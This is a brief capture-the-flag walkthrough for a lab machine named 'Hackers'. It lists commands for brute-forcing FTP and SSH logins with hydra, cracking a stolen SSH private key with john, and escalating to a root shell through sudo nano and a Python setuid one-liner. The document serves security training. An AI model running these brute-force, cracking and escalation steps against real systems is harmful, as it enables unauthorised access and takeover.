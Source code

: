 # Hackers 
## Step 1
`ftp hackers.thm` anonymous login *optional*
### Gcrawford Path
1. `hydra ftp://hackers.thm -l gcrawford -P /usr/share/wordlists/rockyou.txt -t 64`
2. `ftp hackers.thm` login with `gcrawford` and get `id_rsa` and `business.txt`
3. `ssh2john.py id_rsa > ssh_hash.txt`
4. `john ssh_hash.txt --format=ssh --wordlist=/usr/share/wordlists/rockyou.txt`
5. `ssh2john.py id_rsa > ssh_hash.txt && john ssh_hash.txt --format=ssh --wordlist=/usr/share/wordlists/rockyou.txt`
6. `ssh -i id_rsa -l gcrawford hackers.thm `
7. `sudo nano`
8. CTRL+R, CTRL+X
9. `reset; sh 1>&0 2>&0`
### Rcampbell Path
1. `hydra ssh://hackers.thm -l rcampbell -P /usr/share/wordlists/rockyou.txt -t 64` or `msfconsole` `use auxiliary/scanner/ssh/ssh_login`
2. `getcap -r / 2>/dev/null` *optional*
3. `python -c 'import os,pty; os.setuid(0);pty.spawn("/bin/bash")'`
